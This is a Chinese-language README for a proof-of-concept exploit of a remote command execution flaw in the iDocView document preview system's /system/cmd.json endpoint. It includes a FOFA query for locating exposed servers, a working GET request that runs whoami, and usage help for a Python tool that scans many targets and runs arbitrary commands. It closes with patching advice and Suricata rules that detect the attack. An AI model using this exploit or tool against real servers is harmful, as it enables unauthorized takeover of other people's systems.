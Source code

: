 ### 产品简介  
i Doc View是一个在线文档解析应用，旨在提供便捷的文件查看和编辑服务。  

### 漏洞概述  
iDocView是一个在线文档I Doc View在线文档预览系统cmd.json 处存在命令执行漏洞，攻击者可通过此漏洞获取服务器权限  

### 指纹识别  
fofa: title=="在线文档预览 - I Doc View"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/i_Doc_View_cmd_json-RCE/2.png)

### 漏洞利用  
```
poc:
GET /system/cmd.json?cmd=whoami HTTP/1.1
Host: you_ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-HK;q=0.9,zh;q=0.8
Connection: close
```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/i_Doc_View_cmd_json-RCE/1.png)

### 测试和利用脚本  
```
python3 i_Doc_View_cmd_json-RCE.py -h
usage: i_Doc_View_cmd_json-RCE.py [-h] [-t] [-r FILE] [-u URL] [-c URL CMD]

### I Doc View Online Document Preview System cms.json has RCE vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python i_Doc_View_cmd_json-RCE.py -r
                        ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python i_Doc_View_cmd_json-RCE.py -u
                        http://xxx.xxx.xxx
  -c URL CMD, --rce URL CMD
                        Perform RCE. e.g:python i_Doc_View_cmd_json-RCE.py -c http://xxx.xxx.xxx whoami
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  
2.临时屏蔽system/cmd.json接⼝  

### Suricata rules  
```
alert http any any -> any any (msg:"i Doc View cmd.json RCE"; flow:established,to_server; flowbits:set,I_Doc_View; content:"get";http_method;nocase; content:"/system/cmd.json";http_uri;fast_pattern;nocase; content:"cmd=";http_uri;nocase; pcre:"/cmd=.*(id|whoami|exec|echo|>|&)/Ui"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/i_Doc_View_cmd_json-RCE; classtype:web-rce; metadata:created_at 2023-12-22,updated_at 2023-12-22,creater:YUUKI4O4; sid:1; rev:1;)
alert http any any -> any any (msg:"i Doc View cmd.json RCE success"; flow:established,from_server; flowbits:isset,I_Doc_View; content:"200";http_stat_code; content:" application/json";nocase;http_header; content:"{";nocase;http_server_body; content:"data";nocase;http_server_body; pcre:"/\;<br />.*<br />&/Qi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/i_Doc_View_cmd_json-RCE; classtype:web-rce; metadata:created_at 2023-12-22,updated_at 2023-12-22,creater:YUUKI4O4; sid:2; rev:1;)
```
